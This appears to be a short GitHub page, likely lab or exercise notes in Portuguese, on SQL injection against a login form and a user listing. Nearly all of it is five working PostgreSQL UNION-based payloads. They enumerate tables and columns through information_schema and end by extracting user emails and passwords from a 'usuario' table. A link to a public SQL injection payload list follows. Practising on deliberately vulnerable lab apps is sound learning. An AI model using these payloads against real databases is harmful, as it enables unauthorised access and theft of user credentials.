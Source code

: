 - SQL Injection (Login)
- SQL Injection (Lista de usuários)
```sql
' union select 1, '2', '3', '4', '5', '6', 1, now(), now()--
```
```sql
' union select floor(random() * 1000), '2', table_name, '4', '5', '6', 1,now(), now() from information_schema.tables where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), table_name, column_name, '4', '5', '6', 1,now(), now() from information_schema.columns where table_schema = 'public'--
```
```sql
' union select floor(random() * 1000), '2', string_agg(column_name,','), '4', '5', '6', 1,now(), now() from information_schema.columns where table_name = 'usuario'--
```
```sql
' union select floor(random() * 1000), '2', concat(email,' ' ,senha), '4', '5', '6', 1,now(), now() from usuario--
```

[SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)